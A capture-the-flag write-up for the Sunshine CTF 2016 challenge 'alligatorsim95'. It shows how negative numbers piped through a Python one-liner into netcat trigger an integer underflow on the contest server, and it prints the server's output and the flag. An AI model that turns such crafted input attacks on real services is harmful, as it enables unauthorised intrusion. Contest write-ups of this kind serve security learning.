 ```yaml
---
title:   "Write-up - Sunshine CTF 2016 - alligatorsim95"
date:    2016-03-14 00:00:00
tags:    [Write-up, Sunshine CTF 2016]
summary: "Write-up about Sunshine CTF 2016 - alligatorsim95"
---
```


In this challenge, we need to connect to a server through Netcat. Let is do it with `nc 4.31.182.242 9000`. A message appears.

```


              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
```

After digging we can see that the program can accept any values, especially negative values. This is surely a way to perform [integer underflows](https://en.wikipedia.org/wiki/Integer_overflow). By a simple command in Python we can find the flag: `python -c "print -1337; print -0xffffffff; print -1" | nc 4.31.182.242 9000`. We will have the following message:

```
              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 0 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got -2147483648 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
-> dang 2147483647 is a lotta eggs
-> as a god among gators here is ur crown:
sun{int_0verflow_i5_a_g0od_st4rt}
```

The flag is `sun{int_0verflow_i5_a_g0od_st4rt}`.
